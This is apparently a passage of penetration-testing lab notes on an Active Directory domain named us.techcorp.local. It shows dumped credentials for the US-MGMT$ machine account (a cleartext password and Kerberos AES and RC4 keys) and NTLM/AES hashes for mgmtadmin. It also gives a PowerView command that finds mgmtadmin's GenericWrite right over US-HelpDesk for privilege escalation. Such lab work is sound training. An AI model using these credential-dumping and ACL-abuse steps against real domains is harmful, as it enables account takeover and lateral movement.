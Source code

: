 ```

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

```

Note:
mgmtadmin
- AES256: `32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f`
- NTLM: `e53153fc2dc8d4c5a5839e46220717e5`

<br/>

Find interesting ACL of `mgmtadmin` using PowerView:

```
Find-InterestingDomainAcl | ?{ $_.IdentityReference -match "mgmtadmin"}
```

![picture 30](images/0493464eded60facb398023b114ad35850041b64b4e6fd77ff5b42527cc2b808.png)  

- `mgmtadmin` has `GenericWrite` permission on  `US-HelpDesk`

<br/>

